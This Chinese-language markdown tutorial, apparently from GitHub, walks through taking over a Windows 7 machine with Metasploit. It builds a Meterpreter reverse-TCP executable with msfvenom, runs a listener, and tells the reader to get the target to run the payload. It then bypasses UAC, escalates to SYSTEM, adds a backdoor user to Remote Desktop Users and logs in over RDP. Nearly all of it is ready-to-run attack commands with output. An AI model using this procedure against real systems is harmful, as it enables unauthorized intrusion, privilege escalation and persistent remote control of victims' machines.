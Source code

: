 ```yaml
---
title: Windows Reverse TCP
---
```


# Windows Reverse TCP

目标系统：Windows 7 专业版，Service Pack 1，64位。

工具：Kali Linux

1. 使用`msfvenom`生成payload

   ```shell
   $ msfvenom -p windows/x64/meterpreter/reverse_tcp -b "\x00" LHOST=192.168.15.5 LPORT=4444 -i 5 -f exe -o ./some-fancy-name.exe
   ```

2. 打开`msfconsole`，运行以下命令

   ```shell
   msf > use exploit/multi/handler
   msf exploit(handler) > set LHOST 192.168.15.5
   msf exploit(handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
   msf exploit(handler) > set LPORT 4444
   msf exploit(handler) > exploit
   msf exploit(handler) > back
   ```

3. 想办法让目标下载运行你的payload。这时你会在`msfconsole`中得到提示建立连接，并得到session号（一般是从1号开始）。

4. 进入会话，得到目标系统的`meterpreter`。假设对方是用`Tony`用户打开的payload。

   ```shell
   msf > sessions -i 1
   meterpreter > getuid
   Server username: Tony-PC\Tony
   ```

5. 提权，获得系统权限。

   ```shell
   meterpreter > back
   msf > use exploit/windows/local/bypassuac
   msf exploit(bypassuac) > set SESSION 1
   msf exploit(bypassuac) > set LPORT 4445
   msf exploit(bypassuac) > exploit
   msf exploit(bypassuac) > back
   ```

6. 成功后，提示建立Session 2。进入Session 2，并进行提权。

   ```shell
   msf > sessions -i 2
   meterpreter > getsystem
   meterpreter > getuid
   Server username: NT AUTHORITY\SYSTEM
   ```

7. 获得远程桌面，首先创建账号，并将账号加入远程桌面用户组。

   ```shell
   meterpreter > use incognito
   meterpreter > add_user victim password
   meterpreter > shell
   C:\Windows\system32> net localgroup "Remote Desktop Users" victim /add
   C:\Windows\system32> exit
   ```

8. 再打开一个terminal，运行`rdektop`。

   ```shell
   $ rdesktop 192.168.15.7
   ```

9. 此时，看到目标上有两个用户，其中一个是victim，点击登录，输入密码`password`。此时如果对方正在使用，会得到一个提示框“victim”用户正在试图远程登录。如果对方点“确定”，对方会退出，你就会进入目标的桌面。
